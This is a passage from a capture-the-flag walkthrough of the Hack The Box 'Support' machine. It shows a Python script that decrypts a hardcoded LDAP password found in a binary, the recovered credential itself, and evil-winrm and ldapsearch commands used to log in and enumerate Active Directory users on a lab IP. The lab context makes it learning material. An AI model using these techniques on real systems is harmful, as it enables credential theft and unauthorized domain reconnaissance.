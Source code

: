 ```c#

		...
```

To retrieve the password, instead of preparing the executable to be able to run in my machine, I prepared this quick python script, reversing the encription process:

```python
import base64
import itertools

enc_password = base64.standard_b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = bytes("armando", encoding='utf8')
password = []

for b,k in zip(enc_password, itertools.cycle(key)):
	password.append(chr(b ^ k ^ 223))

print(''.join(password))

# Output: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

So we have the user and the password for the LDAP:

**support\\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz**

With those credentials we can try to log in, but failed:

```bash
evil-winrm -i 10.129.227.255 -u support -p nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/3_1_nowinrm.png" width="90%"/>
</p>

So, let's keep enumerating the LDAP with the ldapsearch tool:

```bash
ldapsearch -x -H ldap://10.129.227.255 -D support\\ldap -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/4_0_ldap.png" width="90%"/>
</p>

With this command we get tons of information, so let's try to narrow the search, first to the users:

```bash
$ ldapsearch -x -H ldap://10.129.227.255 -D support\\ldap -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb" | grep -s "name"
name: Users
name: krbtgt
name: Domain Computers
name: Domain Controllers
name: Schema Admins
name: Enterprise Admins
name: Cert Publishers
name: Domain Admins
name: Domain Users
name: Domain Guests
name: Group Policy Creator Owners
name: RAS and IAS Servers
name: Allowed RODC Password Replication Group
name: Denied RODC Password Replication Group
name: Read-only Domain Controllers
```